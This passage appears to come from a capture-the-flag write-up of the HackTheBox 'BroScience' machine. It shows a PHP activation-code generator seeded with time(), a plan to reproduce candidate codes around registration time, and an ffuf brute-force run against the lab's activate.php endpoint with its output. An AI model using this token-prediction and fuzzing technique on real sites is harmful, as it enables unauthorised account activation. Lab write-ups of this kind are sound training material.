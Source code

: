 ```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    echo $activation_code;
    return $activation_code;
}
generate_activation_code()
?>
```

We used the `echo` function on the variable `activation_code` so that it prints out the code during runtime. Our next step is to register a user and run multiple iterations of this script. The script will run both before and after registering. Then, I can use all the generated activation codes to fuzz the `activate.php` endpoint. With this approach, it's highly likely that one of the codes will be the correct one.

![](./img/act_cods.webp)

After running multiple iterations, we were able to narrow down the possible activation codes to around 49. Now, we will try to fuzz the `activate.php` endpoint with these values.

```zsh
~/Tmp > ffuf -u 'https://broscience.htb/activate.php?code=FUZZ' -w act_codes1 -timeout 100 -t 100 -fl 28

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://broscience.htb/activate.php?code=FUZZ
 :: Wordlist         : FUZZ: act_codes1
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 100
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 28
________________________________________________

:: Progress: [49/49] :: Job [1/1] :: 26 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
